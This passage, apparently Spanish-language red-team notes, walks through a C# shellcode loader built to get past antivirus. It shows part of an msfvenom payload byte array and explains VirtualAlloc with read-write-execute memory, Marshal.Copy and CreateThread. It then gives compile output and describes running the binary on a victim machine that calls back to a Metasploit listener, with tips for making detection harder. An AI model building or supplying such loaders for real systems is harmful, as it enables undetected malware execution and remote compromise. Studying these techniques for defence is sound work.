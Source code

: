 ```
0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,
0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,
0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,
0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,
0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
};
```

En el script de `cenar` la funcion de `VirtualAlloc` donde el `Main` lo que hace es reservarnos una direccion de memoria donde se va a ejecutar este `payload` que nosotros tenemos en el codigo.

Le ponemos esto `VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);` ya que estamos definiendo el espacio que en este caso sera `1000 y 3000` y despues le asignamos los permisos que en este caso es `0x40` que significa `Lectura, Escritura y Ejecuccion`.

Lo que vamos ha realizar con esto `Marshal.Copy(buf, 0, funcAdrr, buf.Length);` es copiar en el fragmento de memoria ese `buf` que es la variable del `payload` en la porcion de memoria que hemos definido llamada `funAdrr` y por ultimo con el `buf.Lenght` estamos definiendo el tamaño que en este caso es el que hemos definido en el `payload` anteriormente.

Ahora una vez que se haya copiado lo que vamos hacer es ejecutar ese `payload` seguidamente con `IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAdrr, IntPtr.Zero, 0, IntPtr.Zero);`.

Ahora para compilar el programa tendremos que darle a la pestaña de arriba llamada `Compilar` -> `Generar testshell`.

Info:

```
Compilación iniciada a las 12:24...
1>------ Operación Compilar iniciada: Proyecto: testshell, configuración: Debug Any CPU ------
1>  testshell -> C:\Users\empleado1\source\repos\testshell\testshell\bin\Debug\testshell.exe
========== Compilación: 1 correcto, 0 erróneo, 0 actualizado, 0 omitido ==========
========== Compilar completado a las 12:24 y tardó 06,357 segundos ==========
```

Por lo que vemos se compilo de forma correcta, por lo que ya tendremos nuestro binario preparado para ser ejecutado en la maquina victima llamada `WS02` sin que salte el antivirus pudiendo evadirlo.

Nos vamos a la siguiente ruta que es donde estara nuestro binario.

```
PATH = C:\Users\empleado1\source\repos\testshell\testshell\bin\Debug\
```

Como nosotros ya estamos a la escucha en `metasploit` de antes, solamente tendremos que pasar este binario a la maquina victima.

Y esto no lo va a detectar ya que las firmas son mucho mas complicadas de que pueda ser detectado por un antivirus, ya que no es una firma normal, si no que esta modificada a nuestra forma.

En algunos casos puede ser detectado ya que el `payload` que estamos metiendo en el codigo es de `msfvenom`, pero podremos modificar eso para que sea nuestro porpio `payload` ya asi sea aun mas invisible.

Ahora si nosotros ejecutamos el binario veremos la consola del mensaje que pusimos:

!\[\[Pasted image 20250205123125.png]]
